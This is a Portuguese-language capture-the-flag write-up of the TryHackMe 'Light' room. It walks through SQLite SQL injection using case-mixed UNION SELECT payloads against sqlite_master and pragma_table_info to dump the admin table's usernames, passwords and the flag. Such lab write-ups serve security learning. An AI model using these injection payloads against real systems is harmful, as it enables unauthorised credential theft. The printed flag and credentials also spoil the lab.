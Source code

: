 # Room - Light - TryHackMe 

Level: Easy

Ao conectar no servidor, recebemos uma mensagem de ...

Inserimos o usuário que foi fornecido no enunciado e o servidor nos retorna a senha dele.

A primeira ideia foi tentar conectar via SSH com essas credenciais, mas não foi possível.

Como o enunciado sugere que é um sistema de banco de dados, a segunda aproximação envolveu verificar se o sistema é vulnerável a ataques de SQL Injection.

Utilizando alguns dos payloads encontrados no repo, e baseado nas mensagens de erro, foi possível identificar que o engine usado no banco de dados era o SQLite.


https://github.com/payloadbox/sql-injection-payload-list

Teste de um payload ' UNION SELECT 1+1' retornou o resultado: 2, indicando que o código estava sendo de fato executado pelo banco de dados.

A partir daí, o foco é em enumerar as informações das tabelas

Conforme a documentação do SQLite, disponível em https://www.sqlite.org/schematab.html Em todos os bancos de dados que utilizam essa engine, vai existir uma tabela que contém algumas 
informações sobre todas as outras tabelas.

CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);

Podendo receber esses nomes alternativos: 
    sqlite_master
    sqlite_temp_schema
    sqlite_temp_master 


Seguindo nosso procedimento para conseguir as informações, podemos utilizar o payload
' UNiON SeLect tbl_name FROM sqlite_master '

Descobrimos a tabela admintable

Agora podemos fazer o mesmo processo dentro dessa tabela.
Para descobrir o nome das colunas, podemos realizar a query exemplificada nesse post do fórum do SQLite https://sqlite.org/forum/info/9add3c3898aed7c4

' UnIoN SeLect name from pragma_table_info('admintable') '
Primeira coluna: id

' UnIoN SeLect name from pragma_table_info('admintable') where name != 'id
Segunda coluna: password

' UnIon SeLect name from pragma_table_info('admintable') where name != 'id' and name != 'password
Terceira coluna: username

# Verificando os usernames
' UnIon SeLect username from admintable ' 
*TryHackMeAdmin*

' UnIoN SeLeCt password from admintable where username = 'TryHackMeAdmin
*mamZtAuMlrsEy5bp6q17*

Vamos tentar realizar o acesso via SSH com essas credenciais, mas novamente, não foi possível.

Realizando uma nova consulta ao banco de usuários 
' UnIon SeLect username from admintable where username != 'TryHackMeAdmin

Olha ela aí!, encontramos o usuário *flag* agora vamos ver se a flag está na senha 
' UnIoN SeLeCt password from admintable where username = 'flag

E Foi!
Encontramos a flag
THM{SQLit3_InJ3cTion_is_SimplE_nO?}

